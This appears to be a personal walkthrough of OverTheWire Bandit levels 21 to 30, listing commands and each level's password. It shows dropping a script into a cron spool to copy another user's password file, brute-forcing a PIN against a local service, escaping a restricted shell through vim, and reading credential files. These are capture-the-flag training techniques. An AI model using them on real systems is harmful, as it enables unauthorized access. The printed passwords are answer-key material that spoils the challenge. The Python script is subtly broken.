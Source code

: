 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## Bash script [useful tool](https://www.shellcheck.net/)
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 
```python
import socket
pincode = 2000
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 30002))
msg=s.recv(2048)
print(msg)
while pincode < 10000:
	pincode = str(pincode).rjust(4,"0")
        message=password+' '+pincode+"\n"
        s.sendall(message.encode())
        receive = s.recv(1024)
        if "Try again" in str(receive):
            print(pincode)
            pincode = int(pincode)+1
        else:
            print(pincode)
            print(receive)
            sys.exit("exit")


```
flag:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
# Bandit26
```
ssh bandit26@localhost -i bandit26.sshkey
```
Resize the shell

Press V to start vim
## In vim
```
:e /etc/bandit_pass/bandit26
```
## :cq to exit 

flag:5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
# Bandit27
## Continue from Bandit 26
```
:set shell=/bin/bash
:shell
```
## After get the shell
```
./bandit27-do cat /etc/bandit_pass/bandit27
```
flag:3ba3118a22e93127a4ed485be72ef5ea
# Bandit28
```
mkdir /tmp/dir
cd /tmp/dir
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
cd ./repo
cat *
``` 
flag:0ef186ac70e04ea33b4c1853d2526fa2
# Bandit29
```
mkdir /tmp/lop
cd /tmp/lop
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
cd ./repo
git log -p 
```
flag:bbc96594b4e001778eee9975372716b2
# Bandit30 [better explain](https://medium.com/@theGirlWhoEncrypts/overthewire-bandit-level-29-level-30-f9d5a4167711)
```
git branch -a
git checkout dev
cat README.md 
```



flag:5b90576bedb2cc04c86a9e924ce42faf












